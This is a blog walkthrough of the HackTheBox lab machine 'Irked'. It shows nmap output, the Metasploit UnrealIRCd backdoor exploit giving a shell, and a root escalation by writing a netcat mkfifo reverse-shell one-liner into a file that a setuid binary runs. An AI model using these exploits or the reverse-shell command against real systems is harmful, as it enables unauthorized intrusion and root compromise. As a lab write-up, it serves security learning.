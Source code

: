 ```yaml
---
layout: single
classes: wide
title:  "Walkthrough - Irked"
date: 2019-04-27
categories:
    - "hackthebox"
    - walkthrough
tags:
    - machines
    - easy
    - linux
---
```


This was a decent box. An IRC exploit gets you a shell with the IRC user but not the local user. There are two methods to get a privilege escalation. One is a bit CTFy which I have not included in this walkthrough and the other is using a setuid binary that gets us a root shell. Overall this was a good box.

![banner]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/irked/banner.JPG)

Before following this walkthrough, I highly recommend trying to get the flag yourself! Just like you will hear from everyone else, try harder! (if you cannot find it)

First up, we'll scan the box using basic nmap scripts and then go from there (Enumerate!).

```bash
kali@noone:~/Irked$ nmap -v -p- -sC -sV -oA nmap 10.10.10.117
# Nmap 7.70 scan initiated Sun Feb 10 20:26:11 2019 as: nmap -v -p- -sC -sV -oA nmap 10.10.10.117
Nmap scan report for 10.10.10.117
Host is up (0.25s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesnt have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          53857/udp  status
|_  100024  1          59504/tcp  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
59504/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 10 20:44:03 2019 -- 1 IP address (1 host up) scanned in 1072.35 seconds
```

We have a few ports open. A few weird ports with IRC service running on them. But lets start with the most common way, port 80.

![port80]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/irked/port-80.JPG)

Just a smiley. I am going to pivot and do something else. A `searchsploit` on `UnrealIRCd` got me this.

```bash
kali@noone:~/Irked$ searchsploit UnrealIRCd
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                                               |  Path
                                                                                                                                                                                             | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                                                                 | exploits/linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                                                                                                      | exploits/windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                                                                                               | exploits/linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                                                                                                    | exploits/windows/dos/27407.pl
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

There's a metasploit module. Let's try it out.

```bash
root@noone:/home/pswapnil/Retired/Irked# msfconsole
msf5 > search unreal                                                                                                                                                                                                         

Matching Modules                                                                                                                                                                                                             
================                                                                                                                                                                                                            

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   1  exploit/linux/games/ut2004_secure           2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Linux)
   2  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution                                                                                                    
   3  exploit/windows/games/ut2004_secure         2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Win32)                                                               


msf5 > use exploit/unix/irc/unreal_ircd_3281_backdoor                                                                                                                                                                        
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options                                                                                                                                                              

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):                                                                                                                                                                

   Name    Current Setting  Required  Description                                             
   ----    ---------------  --------  -----------                
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   6667             yes       The target port (TCP)


Exploit target:                                          

   Id  Name                                                                     
   --  ----                                                                     
   0   Automatic Target                                                         


msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 10.10.10.117      
RHOSTS => 10.10.10.117
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RPORT 6697
RPORT => 6697                                                                    
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[*] Started reverse TCP double handler on 10.10.16.102:4444
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...                    
[*] 10.10.10.117:6697 - Sending backdoor command...                             
[*] Accepted the first client connection...                                     
[*] Accepted the second client connection...                                    
[*] Command: echo NYsVwSUaezV0FKxG;                                             
[*] Writing to socket A                                                         
[*] Writing to socket B                                                         
[*] Reading from sockets...                                                     
[*] Reading from socket A                                                       
[*] A: "NYsVwSUaezV0FKxG\r\n"                                                   
[*] Matching...                                                                 
[*] B is input...                                                                                
[*] Command shell session 1 opened (10.10.16.102:4444 -> 10.10.10.117:32986) at 2019-04-29 12:07:43 -0400

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
pwd
/home/ircd/Unreal3.2
```

I will upgrade to a full TTY. To know how I did that, follow [this](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

```bash
ircd@irked:~$ cd /home
ircd@irked:/home$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 May 14  2018 .
drwxr-xr-x 21 root     root     4096 May 15  2018 ..
drwxr-xr-x 18 djmardov djmardov 4096 Apr 30 08:28 djmardov
drwxr-xr-x  3 ircd     root     4096 May 15  2018 ircd
ircd@irked:/home$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
ircd@irked:/home$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-03 06:34 (:0)
djmardov pts/2        2019-04-04 09:01 (10.10.14.14)
sh: 1: /tmp/listusers: not found
```
The `viewuser` binary is searching for a file `/tmp/listusers`. Let's see if we can write to this file. I will try to upload a shell command in the file and start a listener on my local machine.

```bash
ircd@irked:/home$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.102 6666 >/tmp/f" > /tmp/listusers                                                              
<;cat /tmp/f|/bin/sh -i 2>&1|nc <my-ip> 6666 >/tmp/f" > /tmp/listusers
```

Now let's try to execute the binary again and see if we pop a shell.

```bash
ircd@irked:/home$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-05-11 07:04 (:0)
```

What do you know! We popped a shell on the listener we started and it's a root shell!

```bash
kali@noone:~/Irked$ nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.16.102] from (UNKNOWN) [10.10.10.117] 54261
# id     
uid=0(root) gid=1001(ircd) groups=1001(ircd)
# cat /root/root.txt
8******************************3
# locate user.txt
/home/djmardov/Documents/user.txt
/usr/share/doc/fontconfig/fontconfig-user.txt.gz
# cat /home/djmardov/Documents/user.txt
4******************************e
```

This is definetely the first time I am showing the root.txt file before the user.txt file. I guess that's what happens when you try to do your recon thoroughly before trying to score points on HTB.
Great box nonetheless!
